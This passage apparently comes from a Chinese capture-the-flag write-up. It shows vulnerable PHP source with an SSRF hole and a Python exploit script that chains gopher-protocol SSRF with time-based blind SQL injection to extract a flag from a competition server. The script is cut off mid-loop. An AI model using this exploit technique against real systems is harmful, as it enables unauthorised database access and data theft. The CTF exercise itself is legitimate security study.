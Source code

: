 发现`readfile`没有被过滤

![](http://img.npfs06.top/20210511202732.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## easysql

```php
<?php
highlight_file(__FILE__);
    session_start();
    $url = $_GET['url'] ?? false;
    if($url)
    {
    $a = preg_match("/file|dict/i", $url);
        if ($a==1)
        {
            exit();
        }

            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_exec($ch);
            curl_close($ch);
     }

?>
```

类似与之前的虎符慢慢做，gopher进行ssrf本地admin.php，然后时间盲注

```python
import requests
import string
from urllib import parse
import time
import string

charset = "," + string.ascii_lowercase + string.digits + string.ascii_uppercase

charset = ",@" + string.ascii_letters
def send(post):
    post_len = len(post)
    post = parse.quote(post)
    exp = f"gopher://127.0.0.1:80/_POST%20%2Fadmin.php%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%3A80%0D%0AConnection%3A%20close%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A%20{post_len}%0D%0A%0D%0A{post}"
    exp = exp.replace("%", "%25")

    url = f"http://121.36.147.29:20001/?url={exp}"
    start_time  = time.time()
    try:
        r = requests.get(url, timeout=0.3)
    except requests.exceptions.ReadTimeout:
        return 0.3
    stop_time  = time.time()
    return stop_time - start_time

result = ""
sql = "select flag from flag"
for i in range(1,50):
    for c in charset:
        post = f"poc=mid(({sql}),{i},1)='{c}' and sleep(1) "
        t = send(post)
```
